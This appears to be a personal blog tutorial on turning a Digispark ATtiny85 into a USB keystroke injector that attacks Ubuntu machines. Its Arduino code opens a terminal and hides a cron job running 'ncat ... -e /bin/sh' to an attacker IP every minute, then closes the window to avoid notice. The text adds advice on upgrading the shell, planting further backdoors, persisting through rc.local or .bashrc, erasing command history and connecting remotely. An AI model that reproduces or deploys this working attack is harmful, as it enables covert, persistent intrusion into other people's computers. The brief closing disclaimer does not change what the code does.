 ```yaml
---
layout: page
title: USB Keyboard Injectors
subtitle: Using the Digispark Attiny 85
permalink: /network_intrusion/usb_injectors/
---
```


# Introduction
If you are unaware of what USB injectors are they essentially act as a keyboard with pre-programmed instructions. These instructions act as normal keystrokes that you would see from any other keyboard, it just stores what you want to type out and does so automatically when the USB is plugged in. This is very useful because a keyboard is implicitly trusted and there are a number of shortucts that can be used to reach a command prompt / shell, run dialog, or anything else that can be used to compromise a machine.<br><br>
On top of this, a study conducted by the Department of Homeland Security years ago showed that, situation dependant, <a href="https://www.computerworld.com/article/2510014/government-tests-show-security-s-people-problem.html" target="_blank" rel="noopener noreferrer">over 50% of people that picked up the USBs plugged them in to their computers</a>. These numbers increase when the USBs have official looking logos and decrease with proper education / security awareness. Even if the number today is only half what is was back then it remains a concerning statistic, but great for those trying to use people to compromise a machine or network. Malicious USBs can be absolutely devastating to a network, just look at what happened in Iran with Stuxnet (of which the U.S. was 100%, absolutely, unquestionably in _no way involved_).
<br><br>
As mentioned, this page will cover the <a href="http://digistump.com/products/1" target="_blank" rel="noopener noreferrer">Digispark Attiny 85</a>, pictured below.<br>
<p align="center"><img width="300" src="/assets/malicious_usbs/digiattiny85.jpg"></p>
These scripts can be installed on the Digispark boards through the Arduino IDE, which can be downloaded from <a href="https://www.arduino.cc/en/software" target="_blank" rel="noopener noreferrer">here</a>. I'm not going to cover the exact installation process because whether you go the Windows or Linux route it's going to be a pain, and there are more than enough tutorials already out there that cover the process. If you go the Linux route you'll need to configure udev rules for your system (reference <a href="https://startingelectronics.org/tutorials/arduino/digispark/digispark-linux-setup/" target="_blank" rel="noopener noreferrer">here</a>) or install the correct drivers if you go the Windows route (start <a href="https://github.com/digistump/DigistumpArduino/releases" target="_blank" rel="noopener noreferrer">here</a>).
<br><br><br>

# Example: Configuring the crontab to install a reverse shell
The script I wrote can be found in its entirety <a href="https://raw.githubusercontent.com/fe-moldark/wesleykent-website/gh-pages/assets/malicious_usbs/reverse_shell_crontab.ino" target="_blank" rel="noopener noreferrer">here</a>, and before you actually try to write this to the Digispark board you will need to edit the IDE's preferences tab to install the Digispark library and then from the boards manager as well on the IDE - again, there are a million tutorials for this.
<br><br>
Excluding defining a few keys in the beginning the script takes place almost entirely in the `void loop()`, which I will now go over. This section below will press the key combination "CTRL+ALT+T", which on Ubuntu (and other linux distros) will open up a console. From there the I entered in `crontab -e` which will allow us to edit the crontab in the next step. Here is what that looks like:
<br>
```scala
void loop() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_T , MOD_CONTROL_LEFT | MOD_ALT_LEFT); //start the shell
  DigiKeyboard.delay(600);
  DigiKeyboard.print("crontab -e");
  DigiKeyboard.delay(300);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
```
<br>
This next section is necessary because of an unknown factor, which is whether or not the user has configured their crontab before. If a user has already done so then the above `crontab -e` will bring them straight to editing. If they have not, however, there will first be a prompt to select a text editor to use (e.g. nano, vim, etc) and only then will you be forwarded to it. Since one can't know this, the script assumes that the crontab has _not_ been configured and enters in the proper keystrokes to get you there. If it already has been configured then you will needlessly enter in a "1" to what would have selected the editor and then the "ENTER" key, which is then erased by two quick backspace keystrokes. What that looks like is as follows:
```scala
  //In case no crontab has been installed
  DigiKeyboard.print("1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(700);
  DigiKeyboard.sendKeyStroke(KEY_DELETE);
  DigiKeyboard.sendKeyStroke(KEY_DELETE);
  DigiKeyboard.delay(700);
```
<br>
These next few lines will navigate far down to the bottom of the crontab in an attempt to hide the reverse shell command at first glance:
```scala
  //punch down to the very bottom to hide the following command
  for (int i=0;i<45;i++) {
    DigiKeyboard.sendKeyStroke(KEY_ARROW_DOWN);
  }
```
<br>
Now to actually write the reverse shell command into the crontab. The five asterisks indicate this script will run every minute of every hour of every day. If you wanted to have this only execute at a particular time of day you could designate e.g. every Wednesday at 6:15PM instead.<br>
```scala
  DigiKeyboard.print("* * * * * ncat 192.168.11.59 4444 -e /bin/sh"); //this will need to be customized to your local IP and port
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
```
Note: It might be worth it to install two separate commands, one with `ncat` and the other with `nc` since only one of those might be installed on the machine. You will also need to configure your own IP address into this command.<br><br>
After installing that cronjob the following keytrokes will exit the crontab with "CTRL+X" and then save the changes with "Y" and "ENTER"" to confirm.<br>
```scala
  DigiKeyboard.sendKeyStroke(KEY_X , MOD_CONTROL_LEFT);
  DigiKeyboard.sendKeyStroke(KEY_Y);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(700);
```
<br>
The last command, "CTRL+SHIFT+Q" will close out the shell so no one is aware of what just happened.<br>
```scala
  DigiKeyboard.sendKeyStroke(KEY_Q , MOD_CONTROL_LEFT | MOD_SHIFT_LEFT); //close out the terminal
  DigiKeyboard.delay(700);
  DigiKeyboard.sendKeyStroke(KEY_ENTER)

}
```

To receive the shell on your local host all that is needed is a netcat listener open on the right IP address and corresponding port:
<p align="center"><img width="850" src="/assets/malicious_usbs/nc listener.png"></p>
The shell we initially recieve is not very stable or powerful. For example, when I tried to switch users in the first shell that was provided the prompt for the password appeared on the target machine instead of my own, and there were a number of other commands that similarly did not work. Now there are several ways to upgrade the shell, some of which I covered on [this](/tipsandtricks/privilegeescalation/) page. Perl was either not installed on this machine or did not work, and same with Python. Python3, however, was installed and I could upgrade the shell as seen with the following command:<br>
<p align="center"><img width="625" src="/assets/malicious_usbs/upgrade shell.png"></p><br>
From there you can install more scripts to further enumerate and exploit the machine, and install more malware to grant you backdoor access in the event that the crontab command is discovered and removed, perhaps that user account is deleted entirely, etc.
<br><br><br>

# Final thoughts
It's worth noting that different users will have separate crontabs, but they will still execute even when not logged in. I noticed this when I first uploaded the reverse shell to a test user, completely logged out of that account to work on writing this page and the nc listener still activated later from that same cronjob.
<br><br>
This same idea of using the crontab to keep a constant reverse shell pathway open is not the only option. Since this exploit is focused on Linux you could also target the `rc.local` and `.bashrc` files to only reach out to you whenever the system boots or when a user opens a new shell. Get as creative as you want with it.
<br><br>
Another way to hide your actions before you close out the shell would be to delete the last commands you have entered from the history file, but you would only need that if you were trying to cover every possible trace. Since you will likely not always be on the same network you are trying to exploit you might want to use your Public IP address or some proxy server instead, and after configuring proper port forwarding rules you could gain access remotely from the comfort of your own home.
<br><br>
And this goes without saying but I'm going to say it anyways - don't do anything stupid with these USBs or scripts. If you do that's all on you. Cheers.
<br><br>

